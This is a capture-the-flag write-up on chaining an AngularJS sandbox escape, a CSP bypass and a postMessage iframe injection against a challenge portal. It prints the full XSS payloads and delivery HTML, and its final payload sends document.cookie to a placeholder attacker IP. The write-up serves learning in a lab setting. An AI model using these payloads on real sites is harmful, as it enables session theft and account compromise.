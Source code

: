 ```yaml
---
title: STF [You shall not pass!]
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF, STF]
tags: [sandbox, tech, angular, xss, web]
toc: true
comments: true
---
```


*3 SOLVES*

*DESCRIPTION*


We discovered a web portal used by COViD as a C2 platform to send messages to his ransomware victims. They have a script that accesses and hacks the websites posted back to the server! Can you stop them?

<!--more-->

# Initial Testing
Accessing the web site at [http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/) will lead us to a simple page shown below.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/2.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/5.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/6.png)

2 other script tag can be found. `script.js` leads to a `404 Not Found` and a copy of Angular v1.5.6 is included.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/7.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/8.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/9.png)

# Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on `/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/10.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/11.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;
$eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
{% raw %}
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
{% endraw %}
```
The result should be something like this:


![upload-image](/assets/img/blog/STF-You-shall-not-pass!/12.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```bash
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/13.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
{% raw %}
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
{% endraw %}
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/14.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

# Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/15.png)

As we can see, the payload contained a " " character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/16.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. [xip](http://xip.io/) provide a free domain name that points to any IP address. The domain name we will use is `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

# Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to `a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/17.png)

# Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The grand total for the server cost can be seen in the picture below:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/18.png)


More info 
> Ask me on Discord @Coldspot#7033
